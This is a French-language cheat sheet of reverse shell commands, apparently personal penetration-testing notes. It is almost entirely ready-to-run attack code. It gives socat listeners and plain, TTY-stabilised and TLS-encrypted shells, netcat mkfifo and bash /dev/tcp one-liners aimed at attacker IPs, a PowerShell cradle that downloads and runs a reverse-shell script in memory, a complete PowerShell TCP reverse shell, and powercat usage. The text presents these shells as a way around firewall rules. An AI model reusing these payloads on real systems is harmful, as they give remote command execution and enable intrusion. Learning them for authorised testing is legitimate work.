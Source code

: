 # Reverse shell

Se produise lorsque la cible est obligée d’exécuter du code qui se reconnecte à votre ordinateur.

C'est un bon moyen de contourner les règles de pare-feu qui peuvent vous empêcher de vous connecter à des ports arbitraires sur la cible

**NB: L'inconvénient est que, lorsque vous recevez un shell d'une machine via Internet, vous devrez configurer votre propre réseau pour accepter le shell.**


## Socat

Demarrer un ecouteur de shell 

```sh
socat TCP-L:4444 -
```

```sh
socat TCP:<ATTACK-IP>:<PORT> EXEC:powershell.exe,pipes
```

```sh
socat TCP:<ATTACK-IP>:<PORT> EXEC:"bash -li"
```

### Shell inversé Linux TTY entièrement stable

Demarrer un ecouteur

```sh
socat TCP-L:4444 FILE:`tty`,raw,echo=0
```

```sh
socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

### Shell cryptées

Générer un certificat afin d'utiliser des shells cryptés

```sh
openssl req --newkey rsa:2028 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Fusionner les deux fichiers en un seul 

```sh
cat shell.key shell.crt > shell.pem
```

Demarrer un ecouteur avec le fichier

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```


```sh
socat OPENSSL:<ATTACKER-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Shell communes

Demarrer un ecouteur

```sh
nc -nlvp <PORT>
```

```sh
mkfifo /tmp/f; nc <ATTACK-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.113.150 9001 >/tmp/f
bash -c 'bash -i >& /dev/tcp/10.10.15.4/9001 0>&1
```


## PowerShell 

Telecharger et executer un reverse-shell en memoire

```sh
powershell iex (New-Object Net.WebClient).DownloadString('http://ip:port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ATTACK-IP> -Port 443
```

Executer ceci dans powershell

```c
$client = New-Object System.Net.Sockets.TCPClient('<ATTACK-IP>', '443');
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

## PowerCat

C'est la version powershell de netcat

```sh
. .\powercat.ps1
powercat -c <ATTACK-IP> -p 9001 -e cmd -v
```